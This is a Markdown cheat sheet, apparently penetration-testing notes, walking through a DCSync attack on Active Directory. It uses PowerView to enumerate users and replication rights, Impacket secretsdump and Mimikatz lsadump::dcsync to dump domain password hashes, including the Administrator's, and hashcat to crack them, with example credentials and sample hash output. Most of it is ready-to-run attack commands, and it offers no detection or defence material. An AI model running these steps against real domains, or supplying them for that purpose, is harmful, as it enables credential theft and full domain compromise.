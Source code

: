 # Domain Controller Synchronization (dcsync)
## Overview
**DCSync** is an attack that leverages the Directory Replication Service Remote Protocol (DRSR) to impersonate a Domain Controller (DC) and request replication of password data from Active Directory (AD). By abusing the extended rights (specifically, the _DS-Replication-Get-Changes_ and _DS-Replication-Get-Changes-All_ permissions), an attacker can retrieve password hashes (and sometimes even cleartext passwords) for AD accounts.
### 1. Reconnaissance and User Enumeration

**Goal:** Identify the target user and verify their group memberships.
**Sample Command (using PowerView in PowerShell):**

```powershell
Get-DomainUser -Identity adunn | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```

- **What It Does:** Retrieves details about the user (here, “adunn”), including the SID, group memberships, and account control settings.

---

### 2. Verify Replication Rights
Required privileges to perform replication:
        - **Replicating Directory Changes**
        - **Replicating Directory Changes All**
        - **Replicating Directory Changes in Filtered Set**
    - By default, members of the following groups have these rights:
        - Domain Admins
        - Enterprise Admins
        - Administrators
        
**Goal:** Confirm that the target (or another account you control) has the required replication privileges.

**Sample Command (using PowerView):**

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```

- **What It Does:** Scans the ACLs on the domain object (e.g., `DC=yourdomain,DC=com`) and filters for ACEs related to replication. Check for entries such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` for the target SID.

---

### 3. Executing the DCSync Attack with Impacket’s secretsdump.py

**Goal:** Request replication from the DC and extract sensitive credential data.

**Sample Command (from a Linux or Windows system with Python and Impacket installed):**

```bash
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```

- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.
Or 
       
        ```bash
        impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
        ```
        
    - **Example**:
        
        ```bash
        impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
        ```
        
    - **Result (Extract)**:
        
        ```
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
        ```
        
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

---

### 4. Executing the DCSync Attack with Mimikatz
**Run Mimikatz**
    
    ```bash
    .\mimikatz.exe
    ```
    
    - **Command**: Dump the NTLM hash of a target user:
        
        ```bash
        lsadump::dcsync /user:<domain>\<username>
        ```
        
    - **Example**:
        
        ```bash
        lsadump::dcsync /user:corp\dave
        ```
        
    - **Result (Extract)**:
        
        ```
        Credentials:
            Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
        ```
        
3. **Crack the NTLM Hash**
    
    - **Command**:
        
        ```bash
        hashcat -m 1000 <hash_file> <wordlist> -r <rule_file> --force
        ```
        
    - **Example**:
        
        ```bash
        hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
        ```
        
4. **Dump Domain Admin Hashes**
    
    - Dump credentials of the **Administrator** user:
        
        ```bash
        lsadump::dcsync /user:corp\Administrator
        ```
